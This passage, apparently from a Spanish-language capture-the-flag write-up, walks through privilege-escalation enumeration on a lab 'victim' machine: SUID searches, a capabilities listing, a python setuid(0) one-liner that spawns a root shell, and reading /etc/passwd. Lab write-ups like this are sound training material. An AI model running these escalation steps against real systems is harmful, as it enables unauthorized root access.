 ~~~ bash
stty rows 22 columns 85
~~~

## Buscando formas de escalar

Primero comprobamos los privilegios sudo, pero vemos que no existe en la máquina

![Pasted image 20241031005002](https://github.com/user-attachments/assets/11ae9c5e-d11a-4759-944f-385896c45728)

Buscaremos binarios que tengan el bit SUID asignado para poder ejecutarlos con privilegios 

~~~ bash
find / -perm /4000 2>/dev/null
~~~

![Pasted image 20241103220448](https://github.com/user-attachments/assets/aa72e57f-f014-4b86-ad57-98e64040f928)

Vemos `exim4` al final de la salida, pero su versión no es vulnerable a CVE-2019-10149, por lo que debemos seguir buscando una forma para elevar nuestros privilegios

## Capabilities

Listaremos las capabilities en la máquina víctima

~~~ bash
getcap -r / 2>/dev/null
~~~

![Pasted image 20241103221839](https://github.com/user-attachments/assets/8b03928e-283e-466a-9589-f9b418b9d48d)

Con `setuid` configurado en teoría podríamos elevar nuestro privilegio al cambiar el UID de la `bash`

![Pasted image 20241103231646](https://github.com/user-attachments/assets/573bf7e7-a216-48aa-959d-8af213e5721f)

Usaremos este comando para intentar escalar privilegios aprovechando la capacidad que tenemos de cambiar el UID del proceso de `python`

~~~ python
python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'
~~~

![Pasted image 20241104000009](https://github.com/user-attachments/assets/69130edb-9b2c-4517-b016-fc7892cd95d9)

Pero vemos que no podemos ejecutar esta operación por un conflicto de privilegios, quizá estamos omitiendo algún paso o no estamos revisando lo suficiente. Veamos los usuarios existentes en esta máquina

~~~ bash
cat /etc/passwd
~~~

![Pasted image 20241103230134](https://github.com/user-attachments/assets/317624c2-eba2-4090-8352-b6e92ec44b51)

Vemos un usuario `kvzlx`, veamos si podemos ver lo que hay en su directorio en `/home`
